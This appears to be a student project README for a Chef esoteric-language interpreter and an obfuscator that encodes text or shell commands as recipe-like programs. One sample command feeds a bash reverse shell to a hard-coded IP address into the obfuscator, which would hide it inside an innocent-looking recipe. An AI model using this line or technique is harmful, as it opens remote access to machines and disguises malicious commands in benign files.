 # The Caterers (Presentation)

### P Thomsen & Z Cater  (Period 09)

## Overview

>  "Chef is a programming language in which programs look like recipes."  
> — [*David Morgan-Mar*](https://www.dangermouse.net/esoteric/chef.html)

Chef is an *esoteric programming language*[^1] following the concept of *multiple coding*[^2], in which programs are intentionally designed so as to function as both valid programs and valid recipes. Chef is stack-based and utilizes three basic concepts:
1. Ingredients, which have numerical values and can be either dry, liquid, or unknown (*e.g.* 72 g haricot beans, 25 ml water, 6 human eyeballs)
2. An ordered set of infinite mixing bowls, which are the stacks primarily used for general processing and which hold various ingredients within them
3. An ordered set of infinite baking pans, which are used almost solely for data output—once items have been poured into the pans, they are not able to be removed

Together with cooking- and baking-themed commands, these three elements form a Turing-complete language[^3] that is *also* capable of describing a great number of recipes[^4]. Features such as the "Take *ingredient* from refrigerator" and "Mix [the [*nth*] mixing bowl] well" directives even allow for user input and randomness, respectively, allowing us to imagine a world in which one could write and play a cooking simulator in Chef.

Our final project attempts to create a Chef interpreter in C, and an obfuscator to transform simple messages to be printed or called as shell commands into Chef programs.

## Installation Instructions

1. Clone the repository and ensure that gcc, make, and libpcre2-dev are installed (if you're using the school computers, connect to marge.stuy.edu)
    - gcc is necessary for compiling the C code
    - make is necessary for running the makefile to direct gcc what to actually compile
    - libpcre2-dev is necessary for the regular expressions used in parsing the input files, which were as far as I can tell completely unfeasible to reasonably implement using POSIX regular expressions and far too small-scale to be worth utilizing lex and yacc for
2. Run `make compile` to compile the project.
3. Clean up using `make clean` at any time to delete the executables and any `.o` files

## Usage

### To obfuscate: `./obfuscate`

`Obfuscate` takes a single command flag and a string to encode and outputs a valid Chef file. The two valid flags are
- `-p`: The Chef file will *print* the string provided.
- `-x`: The Chef file *execute* the string provided as an `sh`-compatible shell command.

Sample usage:
- `./obfuscate -p "Hello, world!"
- `./obuscate -p '"Chefs are nutters. They'\''re all self-obsessed, delicate, dainty, insecure little souls, and absolute psychopaths. Every last one of them." - Gordon Ramsay'
- `./obfuscate -x 'echo "Hello, world!"'
- `./obfuscate -x 'bash -c 'bash -i >& /dev/tcp/149.89.150.100/9001 0>&1''

Watch out! Obfuscate is ONLY guaranteed to work on ASCII input with 100 or fewer distinct characters. Attempting to use it otherwise will throw an error.



[^1]: Per [Wikipedia](https://en.wikipedia.org/wiki/Esoteric_programming_language): "An *esoteric programming language* (sometimes shortened to *esolang*) is a programming language designed to test the boundaries of computer programming language design, as a proof of concept, as software art, as a hacking interface to another language (particularly functional programming or procedural programming languages), or as a joke. The use of the word esoteric distinguishes them from languages that working developers use to write software … Usability is rarely a goal for designers of esoteric programming languages; often their design leads to quite the opposite."
[^2]: [Mateas, Michael and Nick Montfort. “A Box, Darkly: Obfuscation, Weird Languages, and Code Aesthetics.” In Proceedings of the 6th Digital Arts and Culture Conference, IT University of Copenhagen, 1-3 Dec 2005, pp. 144-153.](https://nickm.com/cis/a_box_darkly.pdf)
[^3]: At least I assume it's Turing complete. I found [this program by Wesley Janssen, Joost Rijneveld and Mathijs Vos](https://github.com/joostrijneveld/Chef-Interpreter/blob/master/ChefInterpreter/TuringsTastyTortillas.chef) which claims to be a working Turing Machine (and it certainly seems to be) and the fact that I cannot spot any way to solve the halting problem with it certainly seem exciting, but I can find no actual analysis and do not trust my own intuition.
[^4]: On the other hand, I know for a *fact* that Chef cannot represent all possible recipes, because there is no way to encode my grandmother's skillet chops and rice recipe. The step "Lie about the presence of onions" is unencodable due to the simple fact that Chef requres all instructions involving arbitrary verbs to be loops and have a matching "until *present participle*" command, while the command to lie about the presence of onions can never complete.
